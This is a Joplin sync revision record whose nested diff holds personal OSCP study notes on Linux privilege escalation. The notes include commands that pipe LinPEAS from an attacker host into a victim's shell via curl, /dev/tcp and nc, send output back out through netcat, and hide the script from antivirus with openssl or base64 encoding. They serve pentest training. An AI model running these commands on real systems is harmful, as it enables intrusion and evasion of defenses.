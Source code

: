 id: 88818978582e43cca3931b0805b4a16b
parent_id: 
item_type: 1
item_id: 93794e30e22547dabb36f2c86d34dd5b
item_updated_time: 1646016693315
title_diff: "[{\"diffs\":[[1,\"14a839d2f4524873b0d2cee33c89b022\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 14a839d2f4524873b0d2cee33c89b022\\\r\\\nparent_id: 3bc6933e3b6f4ded8eadf10be15c9c45\\\r\\\nitem_type: 1\\\r\\\nitem_id: 84f533482e6d49c8a69376c38f28c27c\\\r\\\nitem_updated_time: 1643357762329\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"le\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[-1,\\\\\\\"https://blog.adithyanak.com/oscp-preparation-guide/linux-privilege-escalation\\\\\\\"],[1,\\\\\\\"## LinPEAS\\\\\\\\\\\\\n\\\\\\\\\\\\\nDownload and run instantly\\\\\\\\\\\\\n\\\\\\\\\\\\\n> curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh\\\\\\\\\\\\\n\\\\\\\\\\\\\nIf use Webserver in /opt/privesc\\\\\\\\\\\\\n\\\\\\\\\\\\\n> \\\\\\\\\\\\\\\\# Local network\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> sudo python -m SimpleHTTPServer 80 #Host\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> curl 10.10.10.10/linpeas.sh | sh #Victim\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> \\\\\\\\\\\\\\\\# Without curl\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> sudo nc -q 5 -lvnp 80 < linpeas.sh #Host\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> cat < /dev/tcp/10.10.10.10/80 | sh #Victim\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> \\\\\\\\\\\\\\\\# Execute from memory and send output back to the host\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> nc -lvnp 9002 | tee linpeas.out #Host\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim\\\\\\\\\\\\\n\\\\\\\\\\\\\nFor AV Bypass\\\\\\\\\\\\\n\\\\\\\\\\\\\n> #open-ssl encryption\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> sudo python -m SimpleHTTPServer 80 #Start HTTP server\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> #Base64 encoded\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> base64 -w0 linpeas.sh > lp.enc\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> sudo python -m SimpleHTTPServer 80 #Start HTTP server\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim\\\\\\\\\\\\\n\\\\\\\\\\\\\nhttps://blog.adithyanak.com/oscp-preparation-guide/linux-privilege-escalation\\\\\\\\\\\\\n\\\\\\\\\\\\\n## Extra\\\\\\\\\\\\\n\\\\\\\\\\\\\nLinux Exploit Suggester (Suggestions based on kernel and user space\\\\\\\\\\\\\n\\\\\\\\\\\\\n> ```\\\\\\\\\\\\\n> `wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh`\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> ```\\\\\\\"]],\\\\\\\"start1\\\\\\\":415,\\\\\\\"start2\\\\\\\":415,\\\\\\\"length1\\\\\\\":81,\\\\\\\"length2\\\\\\\":1372}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-28T08:19:15.625Z\\\r\\\ncreated_time: 2022-01-28T08:19:15.625Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":2113}]"
metadata_diff: {"new":{"id":"93794e30e22547dabb36f2c86d34dd5b","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016693307,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.778Z
created_time: 2022-02-28T02:54:21.778Z
type_: 13